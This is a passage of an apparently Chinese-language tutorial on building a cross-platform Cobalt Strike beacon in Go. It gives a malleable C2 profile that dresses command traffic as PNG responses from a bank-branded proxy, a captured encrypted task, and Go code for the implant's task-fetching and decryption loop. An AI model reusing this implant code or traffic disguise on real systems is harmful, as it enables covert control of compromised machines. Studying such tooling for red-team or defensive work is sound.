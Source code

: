   
我们在cs中向beacon发送任务：  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134450.png)  
然后在beacon的机器上抓包获得封包的task数据。  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134451.png)  
然后根据profile，删除prepend和append。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    http-get {    set uri "/api/getid";    client {        header "Accept" "*/*";        metadata {            base64;            prepend "SESSIONID=";            header "Cookie";        }    }  
        server {        header "Server" "Pingan Frontend Proxy";        header "x-pingan-id" "wwvdT1M01kspYwKlmJIe0delKPUqYiRw6VYJKw9kekjO01FMl2QIStx=";        header "X-Frame-Options" "SAMEORIGIN";        header "Content-Type" "image/png";        output {           # mask;            base64;            prepend ".PNG";            print;        }    }}

  
得到加密的task数据为：

  * 

    
    
    o+oyO90IlE+K4pr0d8GbVLZMbra2I4Ty90OHrqeOE/+NXDqos8Wzp2f0Dp9TIrfS

  
然后使用python脚本解密。  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134452.png)  
如上可以看出taskType为：0x27，taskBuffer为空。  
 **1.2.4** **使用** **golang** **完成解包 ****  
**在使用Go语言开发跨平台的beacon时，在beacon返回源数据之后，就会进入循环定时获取task任务的过程，如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     ok := packet.FirstBlood()    if ok {        for {            time.Sleep(time.Duration(config.Sleep) * time.Millisecond)            respBytes := packet.PullCommand() //获取http get response数据            if respBytes != nil {                totalLen := len(respBytes)                //返回的数据必须要大于prepend+append的长度                if totalLen > config.GetAppend + config.GetPrepend {                    //respBytes := resp.Bytes()                    //删除prepend数据                    if config.GetPrepend !=0 {                        respBytes = respBytes[config.GetPrepend:]                    }                    //删除append数据                    if config.GetAppend !=0 {                        respBytes = respBytes[:len(respBytes) - config.GetAppend]                    }                    //decode base64                    decryptBytes, base64Err := base64.StdEncoding.DecodeString(string(respBytes))                    if base64Err != nil {                        fmt.Println("Exception: ",base64Err.Error())                        break                    }                    respBytes = decryptBytes  
                        //去除HashMac                    restBytes := respBytes[:len(respBytes)-crypt.HmacHashLen]                    //aes解密                    decrypted,decryptErr := packet.DecryptPacket(restBytes)                      if decryptErr != nil {                        fmt.Println("Exception: ",decryptErr.Error())                        break                    }  
                        //获取task数据的长度                    lenBytes := decrypted[4:8]                    packetLen := util.ReadInt(lenBytes)                    //获取task数据                    decryptedBuf := bytes.NewBuffer(decrypted[8:])                    for {                        if packetLen <= 0 {                            break                        }                        //解析task数据                        cmdType, cmdBuf, parseErr := packet.ParsePacket(decryptedBuf, &packetLen)                        //根据命令类型，执行相应操作                        ...                    }                }            }        }    }
